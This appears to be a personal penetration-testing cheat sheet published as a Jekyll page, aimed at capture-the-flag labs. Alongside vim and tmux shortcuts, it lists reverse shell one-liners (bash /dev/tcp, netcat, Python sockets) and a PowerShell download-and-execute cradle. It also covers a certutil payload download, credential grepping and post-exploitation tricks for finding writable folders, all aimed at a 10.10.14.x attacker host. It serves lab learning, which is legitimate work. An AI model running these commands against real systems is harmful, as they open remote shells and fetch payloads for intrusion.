 ```yaml
---
layout: tips
title: Tips and Tricks
---
```


Finding interesting locations
=============================
{% highlight bash%}
Writable files directories
find / -writable -type d 2>/dev/null
find / -perm -222 -type d 2>/dev/null
find / -perm -o w -type d 2>/dev/null
Executable folder
find / -perm -o x -type d 2>/dev/null
Writable and executable folders
find / \( -perm -o w -perm -o x \) -type d 2>/dev/null
By default on Linux:
/tmp
/tmp
/var/tmp
/dev/shm
/var/spool/vbox
/var/spool/samba
By default on Windows:
C:\Windows\Tasks 
C:\Windows\Temp 
C:\windows\tracing
C:\Windows\Registration\CRMLog
C:\Windows\System32\FxsTmp
C:\Windows\System32\com\dmp
C:\Windows\System32\Microsoft\Crypto\RSA\MachineKeys
C:\Windows\System32\spool\PRINTERS
C:\Windows\System32\spool\SERVERS
C:\Windows\System32\spool\drivers\color
C:\Windows\System32\Tasks\Microsoft\Windows\SyncCenter
C:\Windows\System32\Tasks_Migrated (after peforming a version upgrade of Windows 10)
C:\Windows\SysWOW64\FxsTmp
C:\Windows\SysWOW64\com\dmp
C:\Windows\SysWOW64\Tasks\Microsoft\Windows\SyncCenter
C:\Windows\SysWOW64\Tasks\Microsoft\Windows\PLA\System
{% endhighlight %}
[Back to the top](#header)

Metasploit
==========
Updates
{% highlight bash%}
searchsploit -u
apt  update ; apt install metasploit-framework
{% endhighlight %}
Searchsploit
{% highlight bash%}
searchsploit -m :copy exploit in pwn
searchsploit -e :examine exploit
searchsploit -p :print full path
{% endhighlight %}
Load exploit to msf
{% highlight bash%}
msf > loadpath /usr/share/metasploit-framework/modules/
or
mv exploit.rb ~/.msf4/modules/exploit/exploit.rb and msf > reload_all
{% endhighlight %}
sessions -l :list sessions
[Back to the top](#header)

Convert to UTF-16LE
===================
{% highlight bash%}
root@kali:~# echo -n "IEX(New-Object Net.WebClient).downloadString('http://10.10.14.1/shell.ps1')" | xxd | head -3
00000000: 4945 5828 4e65 772d 4f62 6a65 6374 204e  IEX(New-Object N
00000010: 6574 2e57 6562 436c 6965 6e74 292e 646f  et.WebClient).do
00000020: 776e 6c6f 6164 5374 7269 6e67 2827 6874  wnloadString('ht
root@kali:~# echo -n "IEX(New-Object Net.WebClient).downloadString('http://10.10.14.1/shell.ps1')" | iconv -t UTF-16LE | xxd | head -3
00000000: 4900 4500 5800 2800 4e00 6500 7700 2d00  I.E.X.(.N.e.w.-.
00000010: 4f00 6200 6a00 6500 6300 7400 2000 4e00  O.b.j.e.c.t. .N.
00000020: 6500 7400 2e00 5700 6500 6200 4300 6c00  e.t...W.e.b.C.l.
{% endhighlight %}
[Back to the top](#header)

Setting up SMB server
=====================
{% highlight bash%}
root@kali:~/HTB/Json/smb# smbserver.py -username root -password password sharingiscaring $(pwd)
Impacket v0.9.21-dev - Copyright 2019 SecureAuth Corporation

[*] Config file parsed
[*] Callback added for UUID 4B324FC8-1670-01D3-1278-5A47BF6EE188 V:3.0
[*] Callback added for UUID 6BFFD098-A112-3610-9833-46C3F87E345A V:1.0
[*] Config file parsed
[*] Config file parsed
[*] Config file parsed
{% endhighlight %}

On the windows side:
{% highlight bash%}
$pass= “password” | ConverTo-SecureString -AsPlainText -Force #need to be typed
$pass #to verify it is created
$cred = New-Object System.Management.Automation.PsCredential('root',$pass)
$cred #to verify it is created
New-PSDrive -name share -root \\10.10.14.1\sharingiscaring -Credential $cred -PSProvider "filesystem"
cd share:
{% endhighlight %}
[Back to the top](#header)

One Liners
==========
Dowloading file via certutil
{% highlight bash%}
cmd.exe /C certutil  -split -urlcache -f http://10.10.14.1/evil.exe c:\Users\Admin\Desktop\notevil.exe
{% endhighlight %}
Nmap scan ran through searchsploit
{% highlight bash%}
nmap -p- -sV -oX new.xml 10.10.14.1; searchsploit --nmap new.xml
{% endhighlight %}
List al started services
{% highlight bash%}
cmd.exe /c wmic service where started=true get name, startname
{% endhighlight %}
Wfuzz
{% highlight bash%}
wfuzz -w /wordlist/directory-medium.txt --hc 404 http://testing.com/test.php?FUZZ=1
--hc 404 = exclude 404 response  
--hh 777 = exclude response with 777char  
For more details: [wfuzz][link15] 
{% endhighlight %}
Find all file in a directory and executing a command.
{% highlight bash%}
find . -type f -exec cat {} \;
{% endhighlight %}
Easy transfert
{% highlight bash%}
base64 -w 0 filetotransfert
echo "iOgogIG1haW4oKQo=" | base64 -d > filename
{% endhighlight %}
Looking for creds in the directory
{% highlight bash%}
Grabbing full word
grep -rnw ./ -e 'password' -e 'password' -e 'passwd'
Grabbing partial word
grep -rn ./ -e 'passwd'
{% endhighlight %}
Search for flag
{% highlight bash%}
find / -type f \( -name "root.txt" -o -name "user.txt" \) 2>/dev/nul
{% endhighlight %}
Untar
{% highlight bash%}
tar -xvf
{% endhighlight %}
[Back to the top](#header)

Reverse shells
================
{% highlight bash%}
bash -i >& /dev/tcp/10.10.14.1/9001 0>&1
/bin/sh | nc 10.10.14.1 9001
rm -f /tmp/p; mknod /tmp/p p && nc 10.10.14.1 9001 0/tmp/p
python3 -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.10.14.32",9001));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'
{% endhighlight %}
[Back to the top](#header)

Creating Custom Wordlists
=========================
This can be easily achieved using [exrex][link13]:
{% highlight bash%}
python3 exrex.py "(winter|summer|spring|fall|autumn)20[12][678]" -o wordlist
{% endhighlight %}
[Cewl][link14] can also be used to automaticly generate a wordlist by scrapping a website:
{% highlight bash%}
cewl -d 0 https://www.testing.com/
{% endhighlight %}
[Back to the top](#header)

VIM shortcut
=============
{% highlight bash%}
gg            :beginning of the document
G             :end of the document
dd            :delete line
yy            :copy line
p             :paste
gg dG         :delete all
g g " + y G   :yank all line 
: % y +       :yank all line (shorter)
{% endhighlight %}
[Back to the top](#header)

Tmux shortcut
=============
{% highlight bash%}
Ctrl + b c :Create window
Ctrl + b , :Rename current window
Ctrl + b % :Split pane vertically
Ctrl + b " :Split pane horizontally
Ctrl + b z :Toggle pane zoom
Ctrl + b ! :Convert pane into a window
Ctrl + b x :Close current pane
Ctrl + b [ :Enter copy mode
  Ctrl + s      :Enable you to search 
                 (press enter to validate and n for next item)
  Ctrl + space  : Start selecting
  Ctrl + w      :Copy selection
  Ctrl + b + ]  :Paste the selection 
  q : Quit copy mode
/ :Search forward
? :Search backward
n :Next keyword occurance
N :Previous keyword occurance
Spacebar   :Start selection
Esc        :Clear selection
Enter      :Copy selection
Ctrl + b ] : Paste contents of buffer_0
{% endhighlight %}
[Back to the top](#header)

Upgrading Simple Shells to Fully Interactive TTYs
=================================================
{% highlight python%}
python -c 'import pty; pty.spawn("/bin/bash")'
or
python3 -c 'import pty; pty.spawn("/bin/bash")'
{% endhighlight %}

Then press CTRL+Z to return to your local shell

{% highlight bash%}
stty -a or (stty size)
stty raw -echo
{% endhighlight %}

Note the number of rows and columns before pressing fg to return to the box

{% highlight bash%}
export SHELL=bash
export TERM=xterm256-color
stty rows number_of_row columns number_of_columns
{% endhighlight %}

Enjoy!
[Back to the top](#header)

Finding non standard binaries 
==============================
{% highlight bash%}
for i in $(ls /sbin/*); do echo $i; done
for i in $(ls /sbin/*); do dpkg --search $i; done
for i in $(ls /sbin/*); do dpkg --search $i 1>/dev/null; done
{% endhighlight %}

To investigate on different location in the $PATH
[Back to the top](#header)

Interesting Links:
==================
- [jwt.io][link1]: Decode and edit jwt token
- [cyberchef][link3]: Decode and encode in multiple format
- [stackedit.io][link4]: Markdown editor
- [devhints.io][link5]: Jekyll dev ops tricks
- [jekyllrb.com][link6]: Jekyll tuto
- [PayloadsAllTheThings][link7]: Payload for everything
- [Netsec][link8]: Idea for future tutorials
- [Pentestmonkey][link9]: Reverse Shell Cheat Sheet
- [W3schools][link10]: Testing new layout
- [Jekyll Tags][link12]: For future reference
[Back to the top](#header)

[link1]:https://jwt.io/  
[link2]:http://jekyllrb.com
[link3]:https://gchq.github.io/CyberChef/
[link4]:https://stackedit.io/app#
[link5]:https://devhints.io/jekyll 
[link6]:https://jekyllrb.com/
[link7]:https://github.com/swisskyrepo/PayloadsAllTheThings
[link8]:https://netsec.ws/?p=376
[link9]:http://pentestmonkey.net/cheat-sheet/shells/reverse-shell-cheat-sheet
[link10]:https://www.w3schools.com/howto/tryit.asp?filename=tryhow_css_subnav
[link11]:https://github.com/infodox/python-pty-shells
[link12]:https://longqian.me/2017/02/09/github-jekyll-tag/
[link13]:https://github.com/asciimoo/exrex
[link14]:https://digi.ninja/projects/cewl.php
[link15]:https://wfuzz.readthedocs.io/en/latest/user/getting.html#getting-help
